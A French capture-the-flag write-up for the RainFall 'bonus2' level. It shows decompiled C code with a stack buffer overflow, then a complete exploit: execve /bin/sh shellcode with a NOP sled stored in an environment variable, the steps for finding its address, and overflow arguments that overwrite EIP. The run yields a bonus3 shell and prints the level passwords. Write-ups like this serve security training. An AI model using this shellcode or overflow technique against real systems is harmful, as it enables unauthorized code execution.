 # Bonus2:

pass : `579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245`

## Source :
```c
#include <string.h>
#include <stdlib.h>

int language = 0;  // 0x08049988

int		greetuser(char *name) {  // 0x08048484
	char str[72];  // ebp-0x48 == esp+0x10

	switch (language) {
		case 0:
			strcpy(str, "Hello ");
			break;
		case 1:
			strcpy(str, "Hyvää päivää ");
			break;
		case 2:
			strcpy(str, "Goedemiddag! ");
			break;
		default:
			break;
	}
	strcat(str, name);
	return (puts(str));
}

int		main(int ac, char **av) {  // 0x08048529
	char str[76];  // esp+0x50
	char str2[80];  // esp
	char *lang;  // esp+0x9c

	if (ac != 3)
		return 1;

	memset(str, '\0', 19);  // 0x13

	stpncpy(str, av[1], 40);  // 0x28
	strncpy(str + 40, av[2], 32);  // x020
	lang = getenv("LANG");
	if (*lang) {
		if (!memcmp(lang, "fi", 2)) {
			language = 1;
		} else {
			if (!memcmp(lang, "nl",2)) {
				language = 2;
			}
		}
	}
	for (int i = 0; i < 19; i++) {
		str2[i] = str[i];
	}

	return greetuser(str2);
}
```

## Recherche :

On remarque que si on a `lang == "fi"` ou `"nl"`, alors dans `greetuser`, la première partie de `str` sera plus longue et on va segfault.

Faisons alors `export LANG="fi"`

Maintenant, on voit que l'`EIP` est réécrite à partir de 16 caractères sur le second argument.
On doit aussi bien mettre 40 caractères pour le premièr argument afin que le second soit écrit.

On va maintenant procéder comme pour le `bonus0` en mettant un shellcode dans une variable qu'on va export, puis en indiquant cette adresse lors de l'écrasement de l'`EIP`

On va fait mettre notre shell code dans un `env` `EXPLOIT` :
```
export EXPLOIT="`python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"'`"`
```
Dans `/tmp`, on va créer un programme pour récupérer l'addresse :
`bonus2@RainFall:/tmp$ cat getenv.c`

```c
#include <stdio.h>
#include <stdlib.h>

int     main(int ac, char **av) {
        printf("%s is %p\n", av[1], getenv(av[1]));
        return 0;
}
```

`gcc getenv.c -o bonus2`

```
bonus2@RainFall:/tmp$ ./bonus2 EXPLOIT
EXPLOIT is 0xbffff918
```

On peut le retrouver également avec gdb avec la commande `x/1s *((char **)environ)` ou `x/s *environ`

En retournant dans le `~`, on va pouvoir executer notre programme en appelant notre shellcode :

```sh
bonus2@RainFall:~$ ./bonus2 $(python -c 'print "A"*40') $(python -c 'print "B"*18 + "\x18\xf9\xff\xbf"')
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB▒���
$ whoami
bonus3
```

On est bon !

## Exploit :

```shell
bonus2@RainFall:~$ export LANG="fi"
bonus2@RainFall:~$ export EXPLOIT="`python -c 'print "\x90"*4096+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"'`"
bonus2@RainFall:~$ gdb ./bonus2
(gdb) b main
Breakpoint 1 at 0x804852f
(gdb) r
Starting program: /home/user/bonus2/bonus2

Breakpoint 1, 0x0804852f in main ()
(gdb) x/1s *environ
0xbfffe8f4:      "EXPLOIT=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...
(gdb) p/x 0xbfffe8f4+512
$1 = 0xbfffeaf4
(gdb) q
bonus2@RainFall:~$ ./bonus2 $(python -c 'print "A"*40') $(python -c 'print "B"*18 + "\xf4\xea\xff\xbf"')Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB����
$ whoami
bonus3
$ cd ../bonus3
$ cat .pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

> Dans l'exploit, on rajoute un offset au shellcode pour être sûr de ne pas avoir de mauvaise surprise par rapport à un éventuel décalage de la mémoire.
